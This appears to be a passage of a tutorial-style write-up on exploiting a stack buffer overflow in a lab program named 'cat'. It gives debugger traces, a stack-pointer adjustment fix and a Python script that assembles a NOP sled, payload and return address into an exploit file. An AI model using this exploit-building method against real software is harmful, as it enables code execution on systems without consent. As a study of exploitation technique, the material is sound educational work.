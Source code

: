  * But when the payload code runs we have another exception.
```
00401000   [19:23:01] Program entry point
0040109C   [19:23:04] Breakpoint at cat.0040109C
004010BB   [19:23:05] Breakpoint at cat.004010BB
0019FD58   [19:23:07] Access violation when writing to [00000097]
```

 * This might be caused by the stack pointer [Esp] pointing to the end of the payload.
   As the payload goes upward, executing the payload makes the stack go downward.
   Thus the payload gets overwritten because the stack pointer should point to `0x19FE58 - 1028`

 * Placing a breakpoint on the ret instruction at `0x4010BB` and pressing F7 allows to go to the 
   nop sled.
```
004010BA  |. C9             LEAVE
004010BB  \. C2 0800        RETN 8
```

 * Where this instruction can be assembled manually. 
 * *`0x408 + 0x8 + 0x4 = 0x414` (payload size + retn size + address size)*
 * But `Sub Esp, 0x00000414` contains zeroes, which is solved by `Add Esp, 0xFFFFFBEC`
 * *`0x100000000 - 0x414 = 0xFFFFFBEC`*
 * Right click the at offset  and click *assemble*, enter `Add Esp, 0xFFFFFBEC`.

```
0019FB69   90               NOP
0019FB6A   81C4 ECFBFFFF    ADD ESP,-414
0019FB70   90               NOP
```
 
 * Hit F9, notepad should pop up.

### ... Conclusion 2

 * The payload shoud have code prepended to adjust the stack pointer before executing.

### .. Code for `fuzz5.py`

```python

import argparse
import re
from struct import pack

parser = argparse.ArgumentParser(description='Exploit cat.')
parser.add_argument('payload', type=argparse.FileType('r'), help="The file containing the payload")
parser.add_argument('--exploit', type=argparse.FileType('wb'), default="exploit.dat", help="The output file.")
args = parser.parse_args()

address = 0x19FA54
maximum = 1028

payload = args.payload.read(maximum * 2)
payload = bytearray.fromhex(payload)

nopsize = maximum - len(payload)
middle = int(nopsize / 2)

args.exploit.write("\x90" * nopsize + payload + pack('i', address + middle))

print("Payload name: " + re.search("'(.*)',", str(args.payload)).group(1))
print("Payload size: " + str(len(payload)))
print("Nopsled size: " + str(nopsize))
print("Total size: " + str(nopsize + len(payload)))
print("Mid address: " + hex(address + middle))
print("Exploit created: " + re.search("'(.*)',", str(args.exploit)).group(1))
```